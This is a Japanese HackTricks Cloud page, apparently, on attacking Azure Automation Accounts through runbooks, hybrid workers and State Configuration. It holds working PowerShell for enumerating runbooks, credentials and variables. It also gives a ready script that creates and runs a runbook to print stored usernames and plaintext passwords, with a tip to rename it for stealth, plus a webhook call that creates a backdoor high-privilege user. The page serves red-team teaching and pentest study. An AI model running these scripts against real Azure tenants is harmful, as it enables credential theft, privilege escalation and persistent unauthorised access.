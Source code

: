 # Az - オートメーション アカウント

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**PEASSファミリー**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Azure Automationは、Azureおよび非Azure環境全体で一貫した管理をサポートするクラウドベースの自動化、オペレーティングシステムの更新、および構成サービスを提供します。プロセス自動化、構成管理、更新管理、共有機能、および異種機能が含まれます。

これらは、**Azure環境**を**管理**、チェック、および構成するために実行することができる（アクションやスクリプトさえも）Azure内の"**スケジュールされたタスク**"のようなものです。

### Run As アカウント

**Run as アカウント**を使用すると、自己署名証明書を持つAzure AD **アプリケーション**を作成し、**サービスプリンシパル**を作成し、**現在のサブスクリプション**でアカウントに**Contributor**ロールを割り当てます（多くの権限）。\
Microsoftは、オートメーションアカウントに**マネージドアイデンティ**を使用することを推奨しています。

{% hint style="warning" %}
これは**2023年9月30日に削除され、マネージドアイデンティに変更されます。**
{% endhint %}

## Runbooks & Jobs の妥協

**Runbooks**は任意のPowerShellコードを**実行することを可能にします**。これは、攻撃者によって悪用され、**添付されたプリンシパル**（もしあれば）の権限を盗む可能性があります。\
**Runbooks**の**コード**には、**機密情報**（クレデンシャルなど）も見つかる可能性があります。

**ジョブ**を**読む**ことができるなら、実行の**出力**を**含む**ので、それを行ってください（潜在的な**機密情報**）。

`Automation Accounts` --> `<Select Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`に移動します

### ハイブリッドワーカー

Runbookは、Azure内の**コンテナ**または**ハイブリッドワーカー**で実行できます。\
**Log Analytics Agent**は、ハイブリッドワーカーとしてVMに登録するためにデプロイされます。\
ハイブリッドワーカージョブは、Windowsでは**SYSTEM**として、Linuxでは**nxautomation**アカウントとして実行されます。\
各ハイブリッドワーカーは**ハイブリッドワーカーグループ**に登録されます。

したがって、**Windowsハイブリッドワーカー**で**Runbook**を実行することを選択できる場合、そのマシン内で**System**として**任意のコマンド**を実行します。

## State Configuration (SC) の妥協

Azure Automation **State Configuration**は、任意のクラウドまたはオンプレミスデータセンターのノードに対してPowerShell Desired State Configuration (DSC) [構成](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)を書き込み、管理し、コンパイルするAzure構成管理サービスです。このサービスは[DSCリソース](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)もインポートし、クラウド内でターゲットノードに構成を割り当てます。AzureポータルでAzure Automation State Configurationにアクセスするには、**構成管理**の下で**State configuration (DSC)**を選択します。

これらの構成には**機密情報**が含まれている可能性があります。

### RCE

SCを悪用して、管理されているマシンで任意のスクリプトを実行することが可能です。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 列挙

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### ランブックを作成する

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Run Bookを使用してAutomation Accountで定義されたCreds & Variablesを抽出する
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% hint style="info" %}
同じことを既存のRun Bookを変更し、ウェブコンソールからも実行できます。
{% endhint %}

## 永続性

### 高権限ユーザーを作成する自動化

* 新しいAutomation Accountを作成
* "Create Azure Run As account": はい
* サブスクリプションにOwner権限を持つAzureADユーザーを作成する新しいrunbookをインポート
* このブログ用のサンプルrunbookはこちら – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* runbookを公開
* runbookにwebhookを追加
* Automation accountにAzureADモジュールを追加
* Azure Automationモジュールを更新
* automation accountに"User Administrator"と"Subscription Owner"の権限を割り当て
* 最終的にアクセス権を失う…
* 新しいユーザーを作成するためにwebhookをpostリクエストでトリガー

```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```

## 参照

* [https://learn.microsoft.com/ja-jp/azure/automation/overview](https://learn.microsoft.com/ja-jp/azure/automation/overview)
* [https://learn.microsoft.com/ja-jp/azure/automation/automation-dsc-overview](https://learn.microsoft.com/ja-jp/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**の[**githubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>
